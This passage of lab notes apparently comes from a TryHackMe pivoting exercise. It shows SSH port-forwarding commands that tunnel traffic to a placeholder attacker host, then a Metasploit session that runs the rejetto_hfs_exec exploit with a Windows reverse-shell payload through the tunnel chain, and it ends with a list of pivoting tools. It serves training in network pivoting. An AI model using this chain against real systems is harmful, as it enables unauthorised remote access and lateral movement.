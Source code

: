 ![Tunnelling Exploit Chain](img/blog/tunnelling-exploit-chain.png)
```sh
C:\> ssh tun@10.50.100.173 -R 8888:thmdc.za.tryhackme.com:80 -L *:62930:127.0.0.1:62930 -L *:62928:127.0.0.1:62928 -N

C:\> ssh tunneluser@ATTACKER_IP -R LOCALIZED_VICTIM_WEB:thmdc.za.tryhackme.com:VICTIM_WEB -L *:SRVPORT:127.0.0.1:SRVPORT -L *:LPORT:127.0.0.1:LPORT -N
```
-L opts Will bind ports on THMJMP2 and tunn any conn back to attacker 

```
user@AttackBox$ msfconsole
48  use rejetto_hfs_exec
49  set payload windows/shell_reverse_tcp
# tells victim to connect back up the chain, will be forwarded by port forwarding
50  set LHOST thmjmp2.za.tryhackme.com 
# specify listener bind addr separately from addr where payload will conn back
51  set ReverseListenerBindAddress 127.0.0.1 
52  set lport 62930
# exploit must host web server, srvhost is bound to attacker, victim will go through the port forwarding chain
53  set srvhost 127.0.0.1
54  set srvport 62928
# RHOSTS is set to localhost and the attacker's local port for the victim service
55  set rhosts 127.0.0.1
56  set rport 8888
57  exploit
58  run
```

#### Other Port Forwarding Tools

SShuttle
Rpivot
Chisel
Hijacking Sockets with ShadowMove
Ligolo-ng